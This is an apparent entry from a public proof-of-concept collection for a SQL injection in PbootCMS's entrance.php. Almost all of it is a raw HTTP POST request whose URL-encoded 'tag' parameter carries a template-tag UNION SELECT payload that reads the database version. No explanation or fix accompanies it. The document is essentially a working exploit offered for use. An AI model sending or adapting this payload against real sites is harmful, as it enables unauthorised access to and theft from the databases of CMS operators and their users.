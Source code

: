 # pbootcms_entrance.php_sqli

from: https://github.com/wy876/POC/blob/main/PbootCMS/PbootCMS%E6%8E%A5%E5%8F%A3entrance.php%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md
product: PbootCMS


```
POST /?tag=%7d%73%71%6c%3a%20%20%7b%70%62%6f%6f%74%3a%6c%69%73%74%20%66%69%6c%74%65%72%3d%31%3d%32%29%55%4e%49%4f%4e%28%53%45%4c%45%43%54%2f%2a%2a%2f%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%28%73%65%6c%65%63%74%2f%2a%2a%2f%76%65%72%73%69%6f%6e%28%29%29%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%29%2f%2a%2a%2f%23%2f%2a%2a%2f%7c%31%32%33%20%73%63%6f%64%65%3d%31%32%33%7d%5b%6c%69%73%74%3a%6c%69%6e%6b%20%6c%69%6e%6b%3d%61%73%64%5d%7b%2f%70%62%6f%6f%74%3a%6c%69%73%74%7d HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
